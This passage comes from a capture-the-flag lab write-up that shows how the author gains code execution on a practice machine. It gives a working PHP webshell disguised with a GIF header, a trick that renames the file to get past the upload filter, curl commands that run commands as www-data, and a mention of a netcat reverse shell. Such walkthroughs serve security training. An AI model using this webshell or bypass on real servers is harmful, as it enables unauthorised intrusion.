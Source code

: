 I create an MD5 hash of my name.  I then add the basic PHP webshell `<?php system($_REQUEST["cmd"]); ?>` to a GIF file, where the filename is the MD5 hash of my name.

```
fcoomans@kali:~/htb/environment$ echo -n 'fcoomans' |md5sum
8f01f44e140d7b693b4a655ad4e9de9b  -

fcoomans@kali:~/htb/environment$ echo -e 'GIF89\n<?php system($_REQUEST["cmd"]); ?>' >8f01f44e140d7b693b4a655ad4e9de9b.gif

fcoomans@kali:~/htb/environment$ cat 8f01f44e140d7b693b4a655ad4e9de9b.gif
GIF89
<?php system($_REQUEST["cmd"]); ?>
```

I upload the file and then use Burp Suite `Repeater` to change the file name to `8f01f44e140d7b693b4a655ad4e9de9b.php .` and it gets uploaded to http://environment.htb/storage/files/8f01f44e140d7b693b4a655ad4e9de9b.php.

![](images/Pasted%20image%2020250720184446.png)

Accessing the URL using `curl` and passing in the parameter `cmd=id`, prints the user information for user `www-data`.

```
fcoomans@kali:~/htb/environment$ curl -s "http://environment.htb/storage/files/8f01f44e140d7b693b4a655ad4e9de9b.php?cmd=id"
GIF89
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I use https://www.revshells.com to generate a `nc mkfifo` reverse shell.  The payload is URL encoded and when executed will spawn a `bash` shell on the target.
